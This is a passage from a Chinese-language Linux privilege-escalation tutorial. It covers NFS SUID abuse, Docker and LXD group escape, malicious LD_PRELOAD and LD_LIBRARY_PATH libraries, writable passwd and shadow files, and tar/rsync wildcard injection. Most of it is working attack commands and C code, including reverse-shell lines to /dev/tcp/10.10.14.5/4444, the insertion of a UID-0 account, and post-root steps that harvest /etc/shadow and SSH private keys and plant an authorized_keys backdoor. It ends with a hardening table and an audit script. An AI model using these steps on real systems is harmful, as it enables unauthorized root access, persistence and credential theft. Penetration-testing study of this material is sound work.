mkdir /tmp/nfs_mount
mount -t nfs 10.0.0.5:/shared /tmp/nfs_mount -o nolock

# 步骤2：创建SUID shell
cp /bin/bash /tmp/nfs_mount/rootbash
chmod +s /tmp/nfs_mount/rootbash

# 步骤3：在目标低权限shell上执行
/tmp/shared/rootbash -p
# id → uid=33(www-data) euid=0(root)
```

---

### 1.12 方法九：Docker/LXC容器逃逸提权

#### 1.12.1 Docker组提权

如果当前用户在 `docker` 组中，可以通过挂载宿主机根文件系统实现提权：

```bash
# 检查用户是否在docker组
id | grep docker
# groups=33(www-data),999(docker)

# 利用方式：创建容器并挂载宿主机根目录
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
# 或者更隐蔽的方式：
docker run -v /etc:/mnt/etc --rm -it ubuntu /bin/bash
echo 'newroot:$6$salt$hash:0:0::/root:/bin/bash' >> /mnt/etc/passwd

# Docker socket暴露时（即使不在docker组）
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker 0 ... /var/run/docker.sock
# 如果当前用户有读写权限，可以直接与Docker API交互

# 使用curl通过socket调用Docker API
curl --unix-socket /var/run/docker.sock http://localhost/containers/json
# 创建特权容器
curl -X POST --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["/bin/sh"],"Binds":["/:/mnt"],"Privileged":true}' \
  http://localhost/containers/create
```

#### 1.12.2 LXD组提权

```bash
# 如果当前用户在lxd组
id | grep lxd

# 初始化LXD（可能需要交互式确认）
lxd init

# 导入Alpine镜像
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine  # 需要在其他机器上预先构建

# 创建特权容器并挂载宿主机根目录
lxc image import ./alpine*.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
# 在容器内访问 /mnt/root 就是宿主机的根文件系统
cat /mnt/root/etc/shadow
```

---

### 1.13 方法十：LD_PRELOAD与LD_LIBRARY_PATH利用

#### 1.13.1 LD_PRELOAD提权

当 `/etc/sudoers` 配置了 `env_keep+=LD_PRELOAD` 时：

```bash
# 检查sudo配置
sudo -l
# 如果看到：Env_keep+=LD_PRELOAD

# 步骤1：创建恶意共享库
cat > /tmp/evil.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
gcc -shared -fPIC -nostartfiles -o /tmp/evil.so /tmp/evil.c

# 步骤2：使用LD_PRELOAD加载恶意库
sudo LD_PRELOAD=/tmp/evil.so /usr/bin/any_sudo_allowed_program
# 会在程序启动时执行_init()，获得root shell
```

#### 1.13.2 LD_LIBRARY_PATH劫持

```bash
# 检查SUID程序的动态库依赖
ldd /usr/local/bin/suid_program
# 输出：
# libcustom.so => not found   ← 程序依赖一个不存在的库

# 创建同名恶意库
cat > /tmp/libcustom.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
static void init() __attribute__((constructor));
void init() {
    setuid(0);
    system("/bin/bash -p");
}
EOF
gcc -shared -o /tmp/libcustom.so /tmp/libcustom.c

# 设置LD_LIBRARY_PATH指向/tmp
export LD_LIBRARY_PATH=/tmp
/usr/local/bin/suid_program
```

> **限制**：现代Linux内核对SUID程序的 `LD_PRELOAD` 和 `LD_LIBRARY_PATH` 进行了安全限制——SUID程序启动时会清除这些环境变量。此方法主要适用于非SUID但以其他方式获得root权限的程序（如通过sudo运行）。

---

### 1.14 方法十一：/etc/passwd与/etc/shadow可写

#### 1.14.1 原理

`/etc/passwd` 存储用户账户信息，如果可写，可以直接添加一个UID为0的用户。`/etc/shadow` 存储密码哈希，如果可写，可以修改root密码。

#### 1.14.2 实操

```bash
# 检查可写性
ls -la /etc/passwd /etc/shadow
# -rw-r--r-- 1 root root ... /etc/passwd  ← 默认不可写
# -rw-r----- 1 root shadow ... /etc/shadow ← 默认不可写

# 如果 /etc/passwd 可写：
# 生成密码哈希
openssl passwd -1 -salt xyz 'MyPassword123'
# $1$xyz$abc123def456...

# 添加一个UID=0的用户
echo 'hacker:$1$xyz$abc123def456...:0:0:root:/root:/bin/bash' >> /etc/passwd

# 登录
su hacker
# 输入密码：MyPassword123

# 如果 /etc/shadow 可写：
# 直接修改root密码哈希
# 生成新哈希
NEW_HASH=$(openssl passwd -1 -salt xyz 'NewRootPass123')
# 替换root行的密码字段
sed -i "s|^root:[^:]*:|root:$NEW_HASH:|" /etc/shadow
# 现在 su root 使用密码 NewRootPass123
```

---

### 1.15 方法十二：Wildcard注入（通配符注入）

#### 1.15.1 原理

当cron脚本或SUID程序使用 `*` 通配符作为tar、rsync、chmod等命令的参数时，shell会将 `*` 展开为目录中的所有文件名。攻击者可以创建名为tar/rsync命令行选项的文件，从而注入任意参数。

#### 1.15.2 实操

```bash
# 目标脚本（以root运行）：
# cd /tmp/backup && tar czf /backups/daily.tar.gz *

# 步骤1：在 /tmp/backup 目录下创建恶意"文件名"
cd /tmp/backup
echo "" > "--checkpoint=1"
echo "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1" > "--checkpoint-action=exec"

# 步骤2：监听反弹Shell
nc -lvnp 4444

# 原理：当tar执行时，* 展开为：
# tar czf /backups/daily.tar.gz --checkpoint=1 --checkpoint-action=exec file1 file2 ...
# tar将checkpoint开头的文件名解析为自身参数，执行反弹Shell

# 其他可利用的命令选项：
# chmod：利用 --reference 参数读取文件
touch "--reference=/etc/shadow"
chmod 777 *  # 会将所有文件权限设为与shadow文件相同

# rsync：利用 -e 参数指定远程shell
echo "bash -i >& /dev/tcp/attacker/4444 0>&1" > "-e"
rsync * /tmp/  # 触发反弹Shell
```

---

### 1.16 攻击链编排：从低权限到Root

实际渗透中，单个漏洞往往不够。需要将多个发现串联成攻击链：



**优先级排序**（按可靠性和隐蔽性）：

1. **sudo配置** — 最可靠，不触发告警，不需要编译
2. **Capabilities** — 隐蔽性高，不需要上传文件
3. **SUID程序** — 需要查询GTFOBins，范围明确
4. **定时任务劫持** — 需要等待cron周期触发
5. **内核漏洞** — 最后手段，可能导致系统不稳定

---

### 1.17 提权后的操作

获得root shell后，并不意味着工作结束：

```bash
# 1. 验证权限
id
# uid=0(root) gid=0(root) groups=0(root)

# 2. 获取稳定的交互式Shell
# 如果是反弹Shell，先升级为完全交互式
python3 -c 'import pty;pty.spawn("/bin/bash")'
# 按 Ctrl+Z
stty raw -echo; fg
export TERM=xterm
stty rows 40 columns 160

# 3. 提取所有凭证
cat /etc/shadow
cat /etc/passwd
find / -name "id_rsa" -o -name "*.key" 2>/dev/null
cat /root/.bash_history
cat /root/.ssh/id_rsa

# 4. 持久化（在授权范围内）
echo 'your_ssh_public_key' >> /root/.ssh/authorized_keys

# 5. 清理痕迹（在授权范围内记录但不执行）
# 查看本次操作留下的日志
grep "www-data" /var/log/auth.log
grep "www-data" /var/log/syslog
```

---

### 1.18 防御与加固建议

从攻击者的视角理解防御，才能更好地保护系统。

| 攻击向量 | 防御措施 |
|---------|---------|
| SUID滥用 | `find / -perm -4000` 定期审计，移除非必要SUID位；使用Capabilities替代SUID |
| sudo配置 | 最小权限原则，避免使用通配符，使用 `sudoedit` 替代 `sudo vim` |
| 内核漏洞 | 及时更新内核，启用自动安全更新（`unattended-upgrades`） |
| 定时任务 | 确保cron脚本及其目录权限为 `755/root:root`，脚本中使用绝对路径 |
| PATH劫持 | 脚本中始终使用绝对路径调用命令 |
| Capabilities | `getcap -r /` 定期审计，移除非必要Capabilities |
| NFS配置 | 始终使用 `root_squash`，限制导出范围 |
| Docker组 | 限制docker组成员，使用rootless Docker，审计Docker socket权限 |
| LD_PRELOAD | `/etc/sudoers` 中 `Defaults env_reset`，不使用 `env_keep+=LD_PRELOAD` |
| /etc/passwd | 默认权限 `644`，确保不可被非root用户写入 |

**自动化安全审计脚本**：

```bash
#!/bin/bash
# privesc_audit.sh - 检查常见提权风险点
echo "=== SUID文件审计 ==="
find / -perm -4000 -type f 2>/dev/null | grep -v -E "^/(usr/(bin|sbin|lib)|bin|sbin)/" | while read f; do
    echo "[!] 非标准SUID: $f ($(stat -c '%U:%G' $f))"
done

echo "=== 危险Capabilities ==="
getcap -r / 2>/dev/null | grep -E "cap_setuid|cap_sys_admin|cap_sys_ptrace|cap_dac" | while read line; do
    echo "[!] 危险Cap: $line"
done

echo "=== 可写cron脚本 ==="
for f in $(cat /etc/crontab /etc/cron.d/* 2>/dev/null | grep -v '^#' | awk '{print $NF}'); do
    if [ -w "$f" ]; then echo "[!] 可写cron脚本: $f"; fi
done

echo "=== NFS no_root_squash ==="
grep "no_root_squash" /etc/exports 2>/dev/null && echo "[!] 存在no_root_squash配置"

echo "=== Docker组成员 ==="
getent group docker 2>/dev/null | while IFS=: read name _ _ members; do
    for m in $(echo $members | tr ',' ' '); do
        if [ "$m" != "root" ]; then echo "[!] docker组非root成员: $m"; fi
    done
done

echo "=== 审计完成 ==="
```

---

### 1.19 常见误区与排错

**误区1：SUID程序一定能提权**

现代Linux对SUID程序施加了多种安全限制：`/proc` 挂载时的 `nosuid`、`seccomp` 过滤、`AppArmor`/`SELinux` 强制访问控制。不要想当然——必须实际测试。

**误区2：内核漏洞利用一定成功**

同一发行版的内核可能有不同编译选项和补丁。`5.4.0-91-generic` 不代表所有5.4.0-91的编译都存在漏洞。某些发行版会backport安全补丁。务必使用 `linux-exploit-suggester` 进行精确匹配。

**误区3：sudo -l 没输出就无法提权**

`sudo -l` 可能因为需要密码而失败。但这不等于没有sudo权限。可以通过其他方式（如读取 `/etc/sudoers`、检查 `/etc/sudoers.d/` 目录）获取信息。

**误区4：忽略容器环境**

如果目标运行在Docker/LXC容器中，内核漏洞利用可能导致宿主机崩溃而非获得容器内提权。容器内的提权策略应优先考虑容器逃逸（Capabilities、挂载点）而非内核漏洞。

**误区5：只看文件权限不看目录权限**

即使脚本文件本身不可写，如果所在目录可写（`chmod 777`），攻击者可以删除原文件并创建同名文件。检查目录权限与文件权限同样重要。

---

### 1.20 进阶：自动化提权工具对比

| 工具 | 语言 | 优势 | 劣势 | 推荐场景 |
|------|------|------|------|---------|
| **LinPEAS** | Shell | 覆盖面最广，输出带颜色高亮，持续更新 | 输出量大，需过滤 | 首选工具，全面扫描 |
| **LinEnum** | Shell | 成熟稳定，输出格式化 | 更新频率降低 | 补充LinPEAS的盲区 |
| **linux-exploit-suggester** | Shell | 专注内核漏洞匹配，精度高 | 仅覆盖内核漏洞 | 内核提权决策 |
| **linuxprivchecker** | Python | 无Shell环境可用 | 功能较基础 | Python-only目标 |
| **pspy** | Go | 无root监控进程/命令，发现cron | 仅进程监控 | 发现隐藏定时任务 |
| **BeRoot** | Python | 跨平台（Linux/Windows/Mac） | 覆盖面不如LinPEAS | 多平台统一工具 |

**pspy使用示例**（发现隐藏的cron任务特别有效）：

```bash
# 上传pspy到目标
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64

# 运行，监控所有用户的新进程
./pspy64
# 输出：
# 2024/01/15 03:05:01 CMD: UID=0 PID=12345 | /bin/bash /opt/scripts/backup.sh
# 发现了crontab中没有列出的定时任务！
```
